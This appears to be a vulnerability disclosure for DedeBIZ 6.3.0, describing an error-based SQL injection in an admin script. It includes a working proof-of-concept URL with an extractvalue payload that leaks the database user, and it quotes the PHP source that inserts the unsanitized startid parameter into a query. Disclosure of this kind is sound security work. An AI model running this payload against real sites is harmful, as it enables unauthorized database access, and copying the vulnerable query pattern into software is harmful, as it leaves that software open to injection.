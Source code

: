 # DedeBIZ 6.3.0  /admin/makehtml_freelist_action.php There is an error-reporting SQL injection vulnerability

## Desc

DedeBIZ 6.3.0 in /admin/makehtml_freelist_action.php does not fully verify the incoming data from the front end, resulting in an error-reporting SQLI vulnerability. The corresponding source code can be downloaded from the official website: https://www.dedebiz.com/download

## verify

Set up the environment and access the administrator backend, visit the url address

```
http://IP/admin/makehtml_freelist_action.php?maxpagesize=30&startid=extractvalue(1,concat(0x7e,(select+user()),0x7e))&%19&pageno=1
```

![image-20240107173752957](./assets/image-20240107173752957.png)

Corresponding source code

```php
require_once(DEDEINC."/archive/freelist.class.php");
if (empty($startid)) $startid = 0;
$ci = " aid >= $startid ";
if (!empty($endid) && $endid >= $startid) {
    $ci .= " And aid <= $endid ";
}
header("Content-Type:text/html; charset={$cfg_soft_lang}");
$dsql->SetQuery("SELECT aid FROM `#@__freelist` WHERE $ci");
$dsql->Execute();
```

